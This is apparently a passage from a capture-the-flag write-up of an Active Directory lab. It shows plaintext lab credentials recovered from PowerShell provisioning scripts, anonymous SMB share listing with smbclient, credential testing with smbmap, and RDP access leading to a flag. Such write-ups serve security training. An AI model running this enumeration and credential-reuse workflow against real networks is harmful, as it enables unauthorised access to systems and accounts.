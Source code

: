 - provisionUsers.ps1 had creds for sedalfino

```ps
net user sedalfino.freitas Summer2022 /add
```

- users1.ps1 was a golden mine with more user creds

```ps
#new joiners
net user rogerio.marques Summer2022 /add /domain
net user rute.rodrigues Summer2022 /add /domain
net user rita.munoiz Summer2022 /add /domain
net user renato.recesso Summer2022 /add /domain
net user carolina.azevedo Summer2022 /add /domain
net user casemiro.silva Summer2022 /add /domain
net user jose.borges Summer2022 /add /domain
net user stefan.silva Summer2022 /add /domain
net user mary.christmas Summer2022 /add /domain
net user rodgers.john Summer2022 /add /domain
```


- Knowing this I tried to authenticate anonymously on `.30` to check those shares

```bash
$ smbclient --no-pass -L //192.168.111.30/

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	Admins$         Disk
	Backups         Disk
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Scripts         Disk
	Users           Disk
```

- After this I tried to the creds I've found but only `sedalfino.freitas` were working but still I got the same privileges as anonymous

```bash
$ smbmap -u 'sedalfino.freitas' -p 'Summer2022' -d 'bajordas' -H 192.168.111.26
```

- After some minutes (hours?) I decided to use xfreerdp and connect to any machine and I was able to do that on `.41` but using remmina with `sedalfino.freitas:Summer2022` and `BAJORDAS.LOCAL` creds


```bash
flag{oneSmallFootInTheEnterprise}
```

<br>

## Second recon
